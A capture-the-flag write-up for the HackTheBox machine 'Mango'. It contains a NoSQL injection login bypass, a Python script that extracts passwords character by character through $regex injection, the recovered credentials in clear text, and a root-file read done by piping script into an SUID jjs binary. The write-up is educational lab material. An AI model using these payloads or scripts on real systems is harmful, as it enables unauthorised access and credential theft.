 # MANGO

## NMAP

```bash
┌──(kali㉿kali)-[~/Downloads/hackthebox/mango]
└─$ nmap 10.10.10.162
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-17 03:25 EDT
Nmap scan report for 10.10.10.162
Host is up (0.28s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
443/tcp open  https

Nmap done: 1 IP address (1 host up) scanned in 51.13 seconds
                                                                                                          
┌──(kali㉿kali)-[~/Downloads/hackthebox/mango]
└─$ nmap 10.10.10.162 -p 22,80,443 -A
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-17 03:26 EDT
Nmap scan report for 10.10.10.162
Host is up (0.28s latency).

PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a8:8f:d9:6f:a6:e4:ee:56:e3:ef:54:54:6d:56:0c:f5 (RSA)
|   256 6a:1c:ba:89:1e:b0:57:2f:fe:63:e1:61:72:89:b4:cf (ECDSA)
|_  256 90:70:fb:6f:38:ae:dc:3b:0b:31:68:64:b0:4e:7d:c9 (ED25519)
80/tcp  open  http     Apache httpd 2.4.29
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: 403 Forbidden
443/tcp open  ssl/http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Mango | Search Base
| ssl-cert: Subject: commonName=staging-order.mango.htb/organizationName=Mango Prv Ltd./stateOrProvinceName=None/countryName=IN
| Not valid before: 2019-09-27T14:21:19
|_Not valid after:  2020-09-26T14:21:19
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
Service Info: Host: 10.10.10.162; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## PORT 443

![](https://github.com/Leo-2807/Writeups/blob/main/images/mango1.png)

## ANALYTICS.PHP

![](https://github.com/Leo-2807/Writeups/blob/main/images/mango2.png)

## CERTIFICATE

![](https://github.com/Leo-2807/Writeups/blob/main/images/mango3.png)

Here we find another domain `staging-order.mango.htb`

## STAGING-ORDER.MANGO.HTB

opening the domain with https gives the same page but opening it with http retuens a new page.

![](https://github.com/Leo-2807/Writeups/blob/main/images/mango4.png)

I used sqlmap t see if there was some sql injection that the form was vulnerable to but it was not.
Since there was a injection tag on the box I google searched for mango sql injection and found that mangoDB is vulnerable to `nosql injection`.

I used this [cheatsheet](https://book.hacktricks.xyz/pentesting-web/nosql-injection) to look for a injection that works.
`username[$ne]=toto&password[$ne]=toto`
I used burpsuit to intercept my request and injected `[$ne]` in the request.

![](https://github.com/Leo-2807/Writeups/blob/main/images/mango5.png)

And this we got redirected to `/home.php`.

![](https://github.com/Leo-2807/Writeups/blob/main/images/mango6.png)

But it seemed like a dead end from here. 

## SSH

I went back a few steps and looked at the cheatsheet again to see what else can be done with the nosql injections.

At the end od the cheatsheet there was a credentials bruteforce script which we can use to bruteforce password and usernames.

I copied the script and made some changes for it to work.

On running the script we find two usernames `admin and mango` but no password.  

On reading again it seems like regex does support certain characters.
So I write a script to find passwords for the usernames we got.

```python
#!/usr/bin/env python3

import requests
import urllib3
import string
import urllib
urllib3.disable_warnings()

username = "admin"
passwd = ""
url = "http://staging-order.mango.htb"

restart = True

while restart:
    restart = False
    
    for c in string.printable:
        if c not in ['*','+','.','?','|']:
            password = passwd + c
            payload = {"username":username, "password[$regex]": "^" + password + ".*"} 
            r = requests.post(url, data=payload, allow_redirects=False)
            if r.status_code == 302:
                print(password)
                restart = True
                passwd=password
                if c == "$":
                    print(passwd)
                    exit(0)
                break
```

Running the script twice we get the password for both the usernames.
```
admin:t9KcS3>!0B#2
mango:h3mXK8RhU~f{]f5H
```
Using the username mango we are able to ssh into the machine.

```bash
┌──(kali㉿kali)-[~/Downloads/hackthebox/mango]
└─$ ssh mango@10.10.10.162   
mango@10.10.10.162's password: 
Welcome to Ubuntu 18.04.2 LTS (GNU/Linux 4.15.0-64-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun Oct 17 10:56:52 UTC 2021

  System load:  0.01               Processes:            103
  Usage of /:   26.7% of 19.56GB   Users logged in:      0
  Memory usage: 27%                IP address for ens33: 10.10.10.162
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

122 packages can be updated.
18 updates are security updates.


Last login: Mon Sep 30 02:58:45 2019 from 192.168.142.138
mango@mango:~$ id
uid=1000(mango) gid=1000(mango) groups=1000(mango)
```

The user.txt is in the home directory of user admin.
We can use su to esecalate to user admin.

```bash
mango@mango:/home$ su admin
Password: 
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

admin@mango:/home$ cd admin
admin@mango:/home/admin$ ls
user.txt
```
## PRIVESEC

### LINPEAS.SH

There were two vulnerbilities that were found by linpeas

```bash
...snip...
╔══════════╣ Checking Pkexec policy
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe#pe-method-2                                                                                 
                                                                                                                                                                                      
[Configuration]
AdminIdentities=unix-user:0
[Configuration]
AdminIdentities=unix-group:sudo;unix-group:admin
...snip...
╔══════════╣ SUID - Check easy privesc, exploits and write perms  
...snip...
-rwsr-sr-- 1 root   admin            11K Jul 18  2019 /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
...snip...
```

On searching both of them on `gtfobins` we find that for exploiting pkexec we need sudo permission which we don't have.
So onto the next `jjs` can be easily exploited since we have suid permission.

The command given under the SUID category on gtfobins only work on macOS.

But we can read files as root using jjs.

```bash
echo 'var BufferedReader = Java.type("java.io.BufferedReader");
var FileReader = Java.type("java.io.FileReader");
var br = new BufferedReader(new FileReader("/root/root.txt"));
while ((line = br.readLine()) != null) { print(line); }' | jjs
```

And got the root.txt

```bash
Warning: The jjs tool is planned to be removed from a future JDK release
jjs> var BufferedReader = Java.type("java.io.BufferedReader");
jjs> var FileReader = Java.type("java.io.FileReader");
jjs> var br = new BufferedReader(new FileReader("/root/root.txt"));
jjs> while ((line = br.readLine()) != null) { print(line); }
cfc7e474bf0d9c3791f104b048cc1d8c
jjs> admin@mango:/usr/lib/jvm/java-11-openjdk-amd64/bin$ 
```